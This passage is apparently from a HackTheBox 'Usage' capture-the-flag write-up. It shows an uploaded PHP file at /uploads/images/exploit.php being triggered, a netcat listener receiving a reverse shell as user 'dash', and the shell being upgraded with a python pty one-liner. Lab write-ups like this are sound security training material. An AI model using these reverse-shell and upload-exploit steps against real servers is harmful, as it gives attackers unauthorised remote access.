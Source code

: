 ![Upload path](./images/exploit_path.png)

So to run the exploit, we can access the file under `/uploads/images/exploit.php`. The only thing that we have to now, is to catch the shell:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ nc -lvnp 8081          
Listening on 0.0.0.0 8081
Connection received on 10.10.11.18 42778
bash: cannot set terminal process group (1244): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$ id
id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
dash@usage:/var/www/html/project_admin/public/uploads/images$ 
```

We can stabilize it as well:
```
dash@usage:/var/www/html/project_admin/public/uploads/images$ python3 --version
<ject_admin/public/uploads/images$ python3 --version          
Python 3.10.12
dash@usage:/var/www/html/project_admin/public/uploads/images$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<es$ python3 -c 'import pty; pty.spawn("/bin/bash")'          
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
zsh: suspended  nc -lvnp 8081

┌──(kali㉿kali)-[~/Desktop/hackthebox/usage]
└─$ stty size
81 156

```